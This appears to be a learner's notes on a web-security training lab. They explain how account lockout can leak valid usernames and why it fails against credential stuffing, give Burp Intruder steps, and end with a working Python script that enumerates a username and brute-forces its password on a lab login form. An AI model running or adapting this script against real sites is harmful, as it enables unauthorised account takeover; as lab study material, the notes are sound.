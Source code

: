 # Username enumeration via account locking
---
One way in _which websites try to prevent brute-forcing is to lock the account_ if certain suspicious criteria are met, usually a set number of failed login attempts.

`Locking` an account offers a certain amount of protection against targeted brute-forcing of a specific account.
However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For **example**, the following method can be used _to work around this kind of protection_.
1. Having a list of candidate usernames that are likely to be valid.
2. Decide on very small shortlist of passwords that you think at least one user is likely to have.
	- For **example**, if you worked out that limit is `3` attempts.
	- You need to pick a maximum of `3` password guesses.

**Account locking also fails** to protect against _credential stuffing attacks_. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches.

**Credential stuffing** relies on many people `reuse` the same credentials on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website.

>[!note]
> _Account locking_ does not protect against _credential stuffing_ because each username is only being attempted once.
> _Credential stuffing_ is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just single automated attack.

# Lab: Username enumeration via account lock
---
1. With Burp running, investigate the login page and submit an invalid username and password. 
	- Send the `POST /login` request to Burp Intruder.
2. Select the attack type **Cluster bomb**. 
	- Add a payload position to the `username` parameter. 
	- Add a `blank` payload position to the end of the request body by clicking **Add §** twice. 
	- The result should look something like this:
	- `username=§invalid-username§&password=example§§`
3. On the **Payloads** tab, add the list of usernames to the first payload set. 
	- For the second set, select the **Null payloads** type and choose the option to generate 5 payloads. 
	- This will effectively cause each username to be repeated 5 times. Start the attack.
4.  In the results, notice that the responses for one of the usernames were longer than responses when using other usernames. 
	- Study the response more closely and notice that it contains a different error message: `You have made too many incorrect login attempts.` 
	- Make a note of this username.
5.  Create a new Burp Intruder attack on the `POST /login` request, but this time select the **Sniper** attack type. 
	- Set the `username` parameter to the username that you just identified and add a payload position to the `password` parameter.
6.  Add the list of passwords to the payload set and create a grep extraction rule for the error message. Start the attack.
7.  In the results, look at the grep extract column. Notice that there are a couple of different error messages, but one of the responses did not contain any error message. Make a note of this password.
8.  Wait for a minute to allow the account lock to reset. Log in using the username and password that you identified and access the user account page to solve the lab.

```python
#!/usr/bin/env python3
# Username enumeration via account lock
# -------------------------------------
# Kinda confusing lol
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def user_list(url, user_path):
    with open(user_path, 'r') as f:
        for users in f.readlines():
            user = users.replace('\n','')
            data = {'username':user, 'password':'wrongpassword'}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Invalid username or password." not in req.text:
                return user
            continue
        return False

def pass_list(url, user, pass_path):
    with open(pass_path, 'r') as f:
        for passwords in f.readlines():
            password = passwords.replace('\n','')
            data = {'username':user, 'password':password}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Invalid username or password." not in req.text and "You have made too many incorrect login attempts." not in req.text:
                return password
            continue
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        username = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <username> <password>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com admin password".format(sys.argv[0]))
        sys.exit(1)
   
    print("[+] Enumerate the username...")
    for i in range(10):
        user = user_list(url, username)
        if user:
            print("[-] Found the username...    [{}]".format(user))
            print("[+] Enumerate the password...")
            passwd = pass_list(url, user, password)
            if passwd:
                print("[-] Found the password...    [{}]".format(passwd))
                break
```